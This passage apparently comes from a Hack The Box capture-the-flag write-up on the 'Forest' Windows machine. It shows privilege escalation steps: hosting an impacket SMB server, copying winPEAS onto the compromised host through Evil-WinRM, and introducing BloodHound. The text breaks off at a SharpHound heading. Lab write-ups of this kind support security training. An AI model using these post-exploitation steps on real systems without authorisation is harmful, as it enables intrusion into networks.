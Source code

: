 ![](/assets/img/htb/machines/windows/easy/forest/shell.png)

___

## Privilege escalation

### Local enumeration with `winPEAS`

In order to transfer [`winPEAS.exe`](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) we can host an SMB server on our machine using **impacket** again:

```bash
$ python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> copy \\10.10.14.12\kali\winPEASx64.exe .
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/23/2019   2:16 PM             32 user.txt
-a----        8/17/2021   3:36 PM        1920000 winPEASx64.exe
```

At this point, I didn't find anything exploitable from winPEAS output.

### Exploring exploitable paths with `BloodHound`

As it is a Domain Controller, we can also use [BloodHound](https://github.com/BloodHoundAD/BloodHound#about-bloodhound) to visualize the domain and see if there are potential privilege escalation paths.

#### Method #1: using `SharpHound`
